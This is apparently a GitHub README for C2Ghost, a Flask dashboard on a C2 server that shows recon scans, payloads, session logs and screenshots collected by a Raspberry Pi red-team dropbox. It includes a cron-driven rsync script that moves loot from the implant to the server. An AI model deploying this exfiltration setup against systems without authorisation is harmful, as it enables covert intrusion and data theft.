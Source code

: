 
# 🧠 C2Ghost Dashboard – GitHub Writeup

> Part of the [Red Teaming Dropbox project](https://github.com/un1xr00t/red-teaming-dropbox)
> 
![image](https://github.com/user-attachments/assets/bbb50cbb-180a-4761-bfc2-72d371359be6)

C2Ghost is a Flask-based dashboard interface for visualizing red team operations data collected by the Red Teaming Dropbox (Raspberry Pi running Kali Linux). This dashboard runs on the Linode C2 server and synchronizes with the Dropbox to render parsed payloads, recon results, session logs, and screenshots — all dynamically.

---

## 📁 Project Directory Overview

**Linode Server Path:** `~/c2ghost/`

```bash
c2ghost/
├── c2ghost.py                  # Main Flask application
├── templates/                  # HTML templates (Jinja2)
│   ├── base.html               # Base layout
│   └── index.html              # Dashboard page
├── static/                     # CSS, JS, images
│   └── style.css               # Custom dashboard styles
├── utils/                      # Python helpers
│   ├── __init__.py
│   └── parser.py               # Parses recon logs & payloads
├── payloads/                   # Uploaded payloads (auto-synced)
│   └── <files>
├── logs/                       # Session logs
│   └── <*.log>
├── loot/                       # Post-exploitation loot
│   ├── recon/                  # Nmap/CME/etc. output
│   │   └── *.txt
│   └── screens/                # Screenshot images
```

---

## 🔄 Async Sync with Raspberry Pi Dropbox

The Red Teaming Dropbox (Raspberry Pi running Kali) syncs with the Linode C2 server using passwordless SSH and a custom sync script.

### ✅ 1. Enable Passwordless SSH to Linode
To avoid login prompts every time:

🔑 On your Pi:
```bash
ssh-keygen -t rsa
# Press Enter through all prompts
ssh-copy-id root@<LINODE_IP>
```
Then test:
```bash
ssh root@<LINODE_IP>
# Should log in without password prompt
```

### ✅ 2. Create the Sync Script
Save the following as `sync-c2ghost.sh` on your Pi:

```bash
#!/bin/bash

LINODE_IP="your-linode-ip-here"
REMOTE_DIR="/root/c2ghost"

echo "[*] Syncing logs..."
rsync -avzu ~/logs/ root@$LINODE_IP:$REMOTE_DIR/logs/

echo "[*] Syncing payloads..."
rsync -avzu ~/payloads/ root@$LINODE_IP:$REMOTE_DIR/payloads/

echo "[*] Syncing loot..."
rsync -avzu ~/loot/ root@$LINODE_IP:$REMOTE_DIR/loot/

echo "[✓] Sync complete."
```

Make it executable and run it:
```bash
chmod +x sync-c2ghost.sh
./sync-c2ghost.sh
```

> This syncs only new or updated files, preserving existing ones.

### ✅ 3. Add to Cron (Optional)
To run it every 10 minutes (whatever interval you'd like):
```bash
crontab -e
```
Add:
```bash
*/10 * * * * /home/kali/sync-c2ghost.sh
```

--- 

## 🧩 Flask Application Logic

### 🔥 App Routes (in `c2ghost.py`):
- `/` → Main dashboard route (renders recon + payload cards)
- `/payloads/<filename>` → Serve payloads
- `/loot/recon/<filename>` → Serve recon file text
- `/loot/screens/<filename>` → Serve screenshot images

### 🧠 Recon Summary Parser – `summarize_recon_files_ai()`
Reads `loot/recon/*.txt` and extracts:
```json
[
  {
    "filename": "nmap_deep_10.0.0.80.txt",
    "hosts": [
      {
        "ip": "10.0.0.80",
        "ports": [80, 443],
        "mac": "00:11:22:33:44:55",
        "device_type": "Cisco Systems"
      }
    ]
  }
]
```

### 📡 `extract_open_ports()`
Pulls a list of interesting ports from all recon files for a top summary.

---

## 🎨 Styling: `static/style.css`

- `.card-grid`: Responsive layout
- `.mono-font`: Terminal-style text
- `.hidden`: Toggled with JS
- `.toggle-btn`: Button styles
- `.ascii-banner`: Retro-style header (Mr. Robot vibes)

---

## ✅ What It Does

This dashboard lets red teamers:
- 🔍 View parsed recon scans (Nmap, CME)
- ⚓ Access dropped payloads
- 👀 Browse screenshots from sessions
- 📄 View active session logs
- 🔁 Auto-sync new files from field Dropbox

---

## 🧪 Example Recon File Format (Supported)

```text
Nmap scan report for 10.0.0.80
Host is up.
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0
80/tcp   open  http    Apache 2.4.57
MAC Address: 00:11:22:33:44:55 (Cisco Systems)
```

---

## 📥 Requirements

- Flask
- Python 3.10+
- `rsync`
- Passwordless SSH to Linode
- File structure must match:
  - `/home/kali/loot/recon/*.txt`
  - `/home/kali/payloads/`
  - `/home/kali/logs/`
  - `/home/kali/loot/screens/`

---

## 🚀 Get Started

```bash
git clone https://github.com/un1xr00t/red-teaming-dropbox
cd c2ghost
pip install flask
python3 c2ghost.py
```

Then navigate to `http://<LINODE_IP>:5000`

---

## 📌 Credits
- Project by [un1xr00t](https://github.com/un1xr00t)
- Dashboard by William (C2Ghost)
- Powered by Flask, rsync, and red team pain

---

> For full Raspberry Pi Dropbox deployment steps, refer to the main repo: https://github.com/un1xr00t/red-teaming-dropbox
